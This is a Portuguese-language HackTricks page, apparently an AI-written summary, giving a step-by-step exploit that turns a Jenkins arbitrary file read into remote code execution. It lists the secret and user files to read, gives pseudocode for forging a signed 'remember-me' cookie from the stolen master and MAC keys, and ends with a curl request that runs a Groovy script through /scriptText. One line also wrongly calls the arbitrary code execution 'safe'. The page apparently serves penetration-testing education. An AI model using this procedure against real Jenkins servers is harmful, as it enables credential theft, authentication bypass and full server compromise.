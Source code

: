 # Jenkins Arbitrary File Read to RCE via "Remember Me"

{% hint style="success" %}
Aprenda e pratique Hacking AWS:<img src="../../.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image.png" alt="" data-size="line">\
Aprenda e pratique Hacking GCP: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Confira os [**planos de assinatura**](https://github.com/sponsors/carlospolop)!
* **Junte-se ao** 💬 [**grupo do Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo do telegram**](https://t.me/peass) ou **siga**-nos no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Compartilhe truques de hacking enviando PRs para o** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositórios do github.

</details>
{% endhint %}

Neste post do blog é possível encontrar uma ótima maneira de transformar uma vulnerabilidade de Local File Inclusion no Jenkins em RCE: [https://blog.securelayer7.net/spring-cloud-skipper-vulnerability/](https://blog.securelayer7.net/spring-cloud-skipper-vulnerability/)

Este é um resumo criado por IA da parte do post onde a criação de um cookie arbitrário é abusada para obter RCE abusando de uma leitura de arquivo local até que eu tenha tempo para criar um resumo por conta própria:

### Pré-requisitos do Ataque

* **Requisito de Funcionalidade:** "Lembre-se de mim" deve estar habilitado (configuração padrão).
* **Níveis de Acesso:** O atacante precisa de permissões Gerais/Leitura.
* **Acesso Secreto:** Capacidade de ler tanto conteúdo binário quanto textual de arquivos-chave.

### Processo Detalhado de Exploração

#### Passo 1: Coleta de Dados

**Recuperação de Informações do Usuário**

* Acesse a configuração do usuário e segredos de `$JENKINS_HOME/users/*.xml` para cada usuário para coletar:
* **Nome de usuário**
* **Semente do usuário**
* **Timestamp**
* **Hash da senha**

**Extração da Chave Secreta**

* Extraia chaves criptográficas usadas para assinar o cookie:
* **Chave Secreta:** `$JENKINS_HOME/secret.key`
* **Chave Mestra:** `$JENKINS_HOME/secrets/master.key`
* **Arquivo da Chave MAC:** `$JENKINS_HOME/secrets/org.springframework.security.web.authentication.rememberme.TokenBasedRememberMeServices.mac`

#### Passo 2: Forjamento de Cookie

**Preparação do Token**

*   **Calcular Tempo de Expiração do Token:**

{% code overflow="wrap" %}
```javascript
tokenExpiryTime = currentServerTimeInMillis() + 3600000  // Adiciona uma hora ao tempo atual
```
{% endcode %}
*   **Concatenar Dados para o Token:**

{% code overflow="wrap" %}
```javascript
token = username + ":" + tokenExpiryTime + ":" + userSeed + ":" + secretKey
```
{% endcode %}

**Descriptografia da Chave MAC**

*   **Descriptografar o Arquivo da Chave MAC:**

```javascript
key = toAes128Key(masterKey)  // Converte a chave mestra para o formato de chave AES128
decrypted = AES.decrypt(macFile, key)  // Descriptografa o arquivo .mac
if not decrypted.hasSuffix("::::MAGIC::::")
return ERROR;
macKey = decrypted.withoutSuffix("::::MAGIC::::")
```

**Cálculo da Assinatura**

*   **Calcular HMAC SHA256:**

```javascript
mac = HmacSHA256(token, macKey)  // Calcula HMAC usando o token e a chave MAC
tokenSignature = bytesToHexString(mac)  // Converte o MAC para uma string hexadecimal
```

**Codificação do Cookie**

*   **Gerar Cookie Final:**

{% code overflow="wrap" %}
```javascript
cookie = base64.encode(username + ":" + tokenExpiryTime + ":" + tokenSignature)  // Codifica os dados do cookie em Base64
```
{% endcode %}

#### Passo 3: Execução de Código

**Autenticação de Sessão**

* **Buscar Tokens CSRF e de Sessão:**
* Faça uma solicitação para `/crumbIssuer/api/json` para obter `Jenkins-Crumb`.
* Capture `JSESSIONID` da resposta, que será usado em conjunto com o cookie de lembrete.

**Solicitação de Execução de Comando**

*   **Envie uma Solicitação POST com Script Groovy:**

```bash
curl -X POST "$JENKINS_URL/scriptText" \
--cookie "remember-me=$REMEMBER_ME_COOKIE; JSESSIONID...=$JSESSIONID" \
--header "Jenkins-Crumb: $CRUMB" \
--header "Content-Type: application/x-www-form-urlencoded" \
--data-urlencode "script=$SCRIPT"
```

* O script Groovy pode ser usado para executar comandos em nível de sistema ou outras operações dentro do ambiente Jenkins.

O exemplo de comando curl fornecido demonstra como fazer uma solicitação ao Jenkins com os cabeçalhos e cookies necessários para executar código arbitrário de forma segura.

{% hint style="success" %}
Aprenda e pratique Hacking AWS:<img src="../../.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image.png" alt="" data-size="line">\
Aprenda e pratique Hacking GCP: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Confira os [**planos de assinatura**](https://github.com/sponsors/carlospolop)!
* **Junte-se ao** 💬 [**grupo do Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo do telegram**](https://t.me/peass) ou **siga**-nos no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Compartilhe truques de hacking enviando PRs para o** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositórios do github.

</details>
{% endhint %}
